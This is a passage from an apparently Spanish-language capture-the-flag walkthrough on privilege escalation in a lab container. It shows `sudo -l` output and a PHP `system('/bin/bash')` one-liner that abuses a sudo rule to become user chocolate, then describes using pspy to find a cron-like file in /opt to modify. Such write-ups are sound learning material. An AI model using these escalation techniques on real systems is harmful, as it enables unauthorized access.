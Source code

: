 Listo procedemos a listar permisos y encontramos que tenemos permisos con el usuario Chocolate en `/usr/bin/php` por lo que buscamos esto en [GTFOBins](https://gtfobins.github.io/) y vemos que tenemos un binario que nos puede ayudar a escalar al usuario chocolate.

```sh
balu@c6d02e23ffc3:~$ sudo -l
Matching Defaults entries for balu on c6d02e23ffc3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User balu may run the following commands on c6d02e23ffc3:
    (chocolate) NOPASSWD: /usr/bin/php
```

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

```bash
balu@c6d02e23ffc3:~$ CMD="/bin/bash"
balu@c6d02e23ffc3:~$ sudo -u chocolate php -r "system('$CMD');"
chocolate@c6d02e23ffc3:/home/balu$ whoami
chocolate
```

### Chocolate

Una vez somos user chocolate intentamos con `sudo -l` pero esta vez ya nos pide contraseña por lo que no fue posible listamos permisos `SUID` y tampoco había algo interesante.

<figure><img src="../../.gitbook/assets/image (18).png" alt="" width="358"><figcaption></figcaption></figure>

Encontramos un Archivo en l carpeta `/opt` pero al abrirlo no tenia nada interesante por lo que recurrimos ala herramienta [pspy64](https://github.com/DominicBreuker/pspy), procedo a subir el archivo y a correrlo en nuestra maquina victima y vemos que cada 5 segundos se ejecuta el archivo anteriormente encontrado por lo que procedemos a modificarlo e ingresarle un código para que nos eleve privilegios.

<figure><img src="../../.gitbook/assets/image (19).png" alt="" width="563"><figcaption></figcaption></figure>
